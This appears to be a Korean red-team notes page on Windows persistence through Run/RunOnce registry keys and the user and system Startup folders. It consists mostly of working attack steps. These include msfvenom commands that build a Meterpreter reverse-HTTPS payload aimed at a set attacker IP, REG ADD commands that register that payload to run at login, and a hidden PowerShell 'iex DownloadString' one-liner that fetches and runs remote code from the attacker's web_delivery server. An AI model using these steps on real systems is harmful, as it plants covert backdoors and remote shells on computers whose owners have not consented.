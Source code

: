 # 레지스트리 / 스타트업 폴더

### 레지스트리&#x20;

윈도우의 레지스트리 키 들 중 다음의 키 들은 유저가 로그인 할 시 자동적으로 특정 프로그램/명령어를 실행한다.&#x20;

1. `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
3. `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
4. `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 실습&#x20;

레지스트리 키에 원하는 프로그램을 등록시키거나 `cmd.exe /c` 혹은 `powershell -enc -command` 등의 플래그를 이용해 명령어를 실행시키면 된다. 레지스트리 키 추가는 다음의 명령어를 이용한다.&#x20;

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경로>
```



#### 레지스트리 + 온디스크 미터프리터&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 리버스쉘을 c:\wow 에 옮기기 

# 3. 타겟의 레지스트리 키 변경 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경>

PS C:\Users\Administrator.CHOI> REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v safestartup /t REG_SZ /d C:\wow\rev.exe
The operation completed successfully.

# 4. 로그오프 후 다시 로그인 -> 리버스쉘 확인 
```

![](<../.gitbook/assets/image (16).png>)

#### 레지스트리 + 인메모리 파워쉘 미터프리터&#x20;

* 파워쉘을 이용한 인메모리 실행을 위해서는 `iex (new-object net.webclient).downloadstring()` 을 이용한다.&#x20;
* 레지스트리 키의 길이 제한은 255자이기 때문에 이에 유의해 레지스트리 키를 생성한다.&#x20;

```
# 1. 메타스플로잇 설정 
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
exploit

# 2. 타겟의 레지스트리 키 변경 - 메타스플로잇의 파워쉘 원라이너 사용 
# #1 번에서 나온 "[*] Using URL: http://192.168.40.182:8080/XXzjZN0FVh" 사용 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d "<프로그램-경로>"

REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v pshstartup /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden iex(New-Object net.webclient).DownloadString('http://192.168.40.182:8080/XXzjZN0FVh')"

# 3. 로그오프 -> 로그인 후 리버스쉘 확인 
```

![](<../.gitbook/assets/image (5) (1) (2).png>)



### 스타트업 폴더&#x20;

스타트업 폴더는 유저가 로그인 해 세션을 구축할 시 폴더 안의 프로그램을 자동으로 실행시킨다. 공격자들은 스타트업 폴더를 이용해 매번 유저가 로그인 할 때마다 비컨/리버스쉘을 받는 등의 지속성 공격을 실행할 수 있다.&#x20;

스타트업 폴더의 경로는 다음과 같다:&#x20;

* `유저: C:\Users\<유저>\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp`&#x20;
* `시스템: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

로컬 관리자 권한을 갖고 있다면 시스템 스타트업 폴더를 이용할 수 있다. 여기서 실행되는 프로세스들은 어떤 유저가 로그인 하던간에 실행된다.&#x20;

### 실습&#x20;

미터프리터를 생성한 뒤, 타겟 호스트의 스타트업 폴더에 미터프리터 파일을 옮긴다. 그 후 로그오프 -> 로그인을 해서 리버스쉘이 도착하는지 확인한다.&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 미터프리터 타겟 호스트로 전송 

# 3. 타겟 호스트에서 미터프리터를 스타트업 폴더로 복사 
cp <미터프리터 경로> 'C:\Users\<유저-이름>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'

4. 로그오프 -> 로그인 후 리버스쉘 확인 
```

### 레퍼런스&#x20;

{% embed url="https://www.elastic.co/guide/en/security/current/startup-folder-persistence-via-unsigned-process.html" %}

{% embed url="https://labs.withsecure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-2/" %}

{% embed url="https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder" %}

<details>

<summary>추가 리서치 - todo </summary>

```
다음 레지스트리 키 들은 스타트업 폴더의 경로를 바꿀 수 있다. 윈도우의 기본 스타트업 폴더 경로가 아니라 다른 폴더 경로를 스타트업 폴더로 바꾸고 싶을 때 이 레지스트리에 값들을 추가한다.
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

</details>
